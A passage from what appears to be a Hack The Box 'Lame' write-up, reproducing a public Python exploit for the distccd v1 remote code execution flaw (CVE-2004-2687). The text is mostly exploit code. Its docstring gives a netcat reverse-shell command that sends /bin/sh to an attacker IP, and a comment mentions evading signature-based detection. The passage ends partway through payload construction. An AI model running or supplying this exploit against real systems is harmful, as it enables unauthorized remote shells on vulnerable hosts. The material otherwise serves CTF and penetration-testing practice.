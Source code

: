 I also tried to exploit the distccd v1. It is vulnerable to another CVE (CVE-2004-2687). Found the following exploit from hacktricks. [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

```python
# -*- coding: utf-8 -*-

'''
	distccd v1 RCE (CVE-2004-2687)

	This exploit is ported from a public Metasploit exploit code :
		https://www.exploit-db.com/exploits/9915

	The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

	I'm aware a Nmap script exists but for some reason I could not get it to work.

	Lame Box (HTB):
		local>nc -lvp 1403

		local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"

		Enjoy your shell

	Jean-Pierre LESUEUR
	@DarkCoderSc
'''

import socket
import string
import random
import argparse

'''
	Generate a random alpha num string (Evade some signature base detection?)
'''
def rand_text_alphanumeric(len):
	str = ""
	for i in range(len):
		str += random.choice(string.ascii_letters + string.digits)

	return str

'''
	Read STDERR / STDOUT returned by remote service.
'''
def read_std(s):
	s.recv(4) # Ignore

	len = int(s.recv(8), 16) # Get output length

	if len != 0:
		return s.recv(len)

'''
	Trigger Exploit
'''
def exploit(command, host, port):
	args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

	payload = "DIST00000001" + "ARGC%.8x" % len(args)

	for arg in args:
		payload += "ARGV%.8x%s" % (len(arg), arg)
```